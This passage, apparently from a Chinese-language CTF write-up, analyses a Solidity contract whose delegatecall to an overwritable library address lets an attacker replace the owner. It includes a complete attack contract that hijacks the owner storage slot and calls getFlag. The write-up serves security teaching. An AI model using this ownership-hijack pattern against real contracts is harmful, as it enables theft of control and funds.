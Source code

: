 4. 参数处理函数
    - 提取并校验函数参数。
    - 用于确保参数格式正确，例如时间值的长度校验。

```solidity
function func_03AA(var arg0, var arg1) returns (var r0) {
    if (arg0 - arg1 < 0x20) { revert(memory[0x00:0x00]); } // 长度校验
    return msg.data[arg1:arg1 + 0x20]; // 返回参数值
}
```

分析合约代码：

1. **合约存储布局**
   - `storage[0x00]`: timeZone1Library地址
   - `storage[0x01]`: timeZone2Library地址 
   - `storage[0x02]`: owner地址

2. **关键函数**
   - `setFirstTime(uint256)`: 使用`delegatecall`调用`timeZone1Library`的`setTime`函数
   - `getFlag()`: 只有`owner`可以调用

3. **漏洞成因**
   - `delegatecall`在调用合约的上下文中执行代码，任何 Storage Slot 的修改都会影响原合约
   - `timeZone1Library`地址可以被篡改，导致`delegatecall`可以指向任意地址
   - 存储布局固定，可以精确定位和修改`owner`变量

### 攻击思路

攻击利用`delegatecall`的特性，分两步实现：

1. 修改时间库地址
   - 调用`setFirstTime`，传入攻击合约地址
   - 此时`timeZone1Library`(storage[0])被修改为攻击合约地址

2. 修改owner
   - 再次调用`setFirstTime`
   - 通过`delegatecall`执行攻击合约的`setTime`函数
   - 在原合约上下文中修改`owner`为攻击合约地址

### 攻击合约代码

```solidity
contract Attack {
    // 匹配存储布局
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    
    // 攻击函数
    function setTime(uint256) public {
        owner = msg.sender;  // 修改owner为消息发送者
    }
    
    // 触发delegatecall
    function attack(address target) public {
        // 第一次调用：修改timeZone1Library
        bytes4 selector = bytes4(0xf1e02620);
        target.call(abi.encodeWithSelector(selector, uint256(uint160(address(this)))));
        
        // 第二次调用：修改owner
        target.call(abi.encodeWithSelector(selector, uint256(uint160(address(this)))));
        
        // 获取flag
        bytes4 getFlagSelector = bytes4(0xf9633930);
        target.call(abi.encodeWithSelector(getFlagSelector));
    }
}
```